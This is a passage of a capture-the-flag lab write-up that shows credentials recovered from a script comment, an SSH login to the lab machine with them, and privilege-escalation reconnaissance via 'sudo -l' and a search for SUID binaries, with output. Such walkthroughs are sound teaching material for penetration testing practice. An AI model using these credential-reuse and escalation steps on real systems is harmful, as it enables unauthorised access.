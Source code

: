 
else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

More credentials:
```
USER=stoner
#superduperp@$$no1knows
```

And we can log in:
```
$ ssh -p 55007 stoner@$IP
stoner@10.10.215.152's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Thu Aug 22 16:05:13 2019
stoner@Vulnerable:~$ 
```

```
stoner@Vulnerable:~$ ls -la
total 20
drwxr-x--- 4 stoner stoner 4096 Sep  4 16:15 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwx------ 2 stoner stoner 4096 Sep  4 16:15 .cache
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret 
You made it till here, well done.

```

## Privesc
```
$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

#### suid
```
$ find / -type f -perm -04000 -ls 2>/dev/null
   264453     40 -rwsr-xr-x   1 root     root        38900 Mar 26  2019 /bin/su
   276977     32 -rwsr-xr-x   1 root     root        30112 Jul 12  2016 /bin/fusermount
   260151     28 -rwsr-xr-x   1 root     root        26492 May 15  2019 /bin/umount
   260156     36 -rwsr-xr-x   1 root     root        34812 May 15  2019 /bin/mount
   260172     44 -rwsr-xr-x   1 root     root        43316 May  7  2014 /bin/ping6
   260171     40 -rwsr-xr-x   1 root     root        38932 May  7  2014 /bin/ping
